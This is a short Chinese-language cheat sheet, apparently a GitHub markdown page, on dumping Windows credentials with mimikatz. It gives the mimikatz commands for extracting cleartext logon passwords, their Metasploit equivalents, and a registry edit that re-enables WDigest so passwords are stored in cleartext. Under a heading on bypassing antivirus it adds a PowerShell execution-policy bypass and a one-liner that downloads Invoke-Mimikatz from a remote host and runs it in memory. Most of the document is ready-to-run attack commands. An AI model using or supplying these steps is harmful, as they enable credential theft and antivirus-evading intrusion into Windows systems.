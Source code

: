 ## 控制台执行多条命令，用log防止进程崩溃，数据丢失

```
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

> tspkg，wdigest，kerberos：这个就是账户对应的明文密码了。有的时候这三个对应的也不是全部都是一样的，需要看服务器是什么角色。

## msf中执行命令

```
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest
```

## 注册表开启wdigest,08r2后默认关闭。需要目标注销，重新登录。2016需要重启。

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t
REG_DWORD /f /d 1
```

## 绕过杀软执行mimikatz

### powershell

`https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1`

cmd下执行

```
C:\Users\test\Desktop>powershell -exec bypass "import-module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz"
```

> 这个命令启动 PowerShell，然后通过 -exec bypass 参数绕过了 PowerShell 的执行策略（Execution Policy），允许执行未签名的脚本。然后，命令执行了以下操作：
> 
> `import-module .\Invoke-Mimikatz.ps1`：这个命令会导入当前目录下的名为 "Invoke-Mimikatz.ps1" 的 PowerShell 脚本文件。这个脚本通常用于执行 Mimikatz 工具中的功能，Mimikatz 是一个知名的密码抓取工具，常用于渗透测试和安全评估。
> 
> `Invoke-Mimikatz`：一旦 "Invoke-Mimikatz.ps1" 被导入，这个命令会执行该脚本中的 Invoke-Mimikatz 函数或命令。这通常会触发 Mimikatz 工具的执行，从而执行相关的操作，例如提取系统中的凭据信息。
> 
> 总的来说，这个命令旨在执行一个 PowerShell 脚本（Invoke-Mimikatz.ps1），以执行 Mimikatz 工具中的相关功能。

也可以远程加载

```
powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.101/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```
